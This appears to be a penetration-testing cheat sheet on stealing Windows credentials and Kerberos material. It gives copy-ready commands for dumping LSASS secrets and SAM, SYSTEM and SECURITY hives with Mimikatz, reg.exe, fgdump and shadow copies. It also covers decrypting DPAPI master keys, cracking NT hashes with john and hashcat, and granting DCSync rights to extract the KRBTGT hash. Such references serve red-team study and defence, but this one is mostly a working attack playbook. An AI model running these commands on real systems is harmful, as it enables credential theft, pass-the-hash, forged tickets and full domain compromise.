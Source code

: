 # Credentials and Tickets

## Enumerate Users And Hashes

```
privilege::debug
token::elevate

sekurlsa::logonpasswords 
sekurlsa::ekeys /aes128
sekurlsa::ekeys /aes256

vault::cred
vault::list
```

## NTLM From Password

```
python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<password>".encode("utf-16le")).digest())'
```

## ShadowCopy Exploit

It is possible to retrieve and dump keys from old backup versions of the system saved with ShadowCopy. Once the backup version is exposed you can dump the SAM credentials and extract  DPAPI hashes

Enumerate copies

```
vssadmin list shadows
diskshadow list shadows all
```

Create a link to the copy

```
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\<shadow copy volume name>\
```

## SAM credentials dump

### Dumping

#### Manual

Administrative privileges are required to dump register keys

```
reg.exe save hklm\sam c:\dp\sam.save
reg.exe save hklm\system c:\dp\system.save
reg.exe save hklm\security c:\dp\security.save
```

Possible backups location

```
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

#### fgdump.exe

Runs locally, creates a file with the hashes.

```
fgdump.exe
fgdump.exe -t    #test for anti-virus presence
fgdump.exe -a    #don't try to disable anti-virus
fgdump.exe -r    #ignore existing dump files
```

#### Mimikatz

```
lsadump::sam                 //SAM database
lsadump::secrets             //SAM secrets
```

### Decryption

Impacket - secretsdump.py

```
secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

Samdump or Pwdump

```
samdump2 system.save sam.save
pwdump SYSTEM SAM > <file>
```

After obtaining the hashes they can be cracked to obtain the passwords or used in Pass the Hash attacks.

```
john -format=NT -wordlist=<wordlist> <hashfile>
hashcat -m 1000 -a 0 --force --show --username <hash> <wordlist> #rows follow the format <user>:<hash>
```

## DPAPI hash dump

Usual credential files position

```
%appdata%\Microsoft\Credentials\
%localappdata%\Microsoft\Credentials\
%appdata%\Microsoft\Protect\<usersid>\    //master key
```

Enumerate Credentials hashes. The parameter `guidMasterKey` reveals the hash of the master key

```
dpapi::cred /in:"<path to cred hash>" 
```

Retrieve the master key, decode it and store the key in cache. In order to decrypt the key we need to be operating under the same context (user, system) the key belongs to.&#x20;

```
dpapi::masterkey /in:"<Path to MasterKeyGUID>" 
dpapi::masterkey /in:"<Path to MasterKeyGUID>" /rpc
dpapi::cache
```

Decrypt other hashes with the master key

```
dpapi::cred /in:"<path to CredHash>"
```

## DC KRBTGT hash dump

Use a DCSync attack to dump the hash used by the domain controller to sign Kerberos tickets. This allows an attacker to create custom tickets and impersonate other users or gain access to different services/hosts. To execute this attack we need to operate under a user with the `Replicating Directory Changes All` and `Replicating Directory Changes` privileges. By default Local and Domain Administrators own these privileges.

Find users with the required privileges with PowerView

```
Get-ObjectACL -DistinguishedName "dc=<domain>,dc=local" -ResolveGUIDs | ? {($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') }
```

If the current user lacks the required permissions run this command on the DC to add them.

```
Add-ObjectAcl -TargetDistinguishedName "dc=<domain>,dc=local" -PrincipalSamAccountName <user> -Rights DCSync -Verbose
```

Run mimikatz on the DC

```
lsadump::dcsync /user:<user> /krbtgt
```
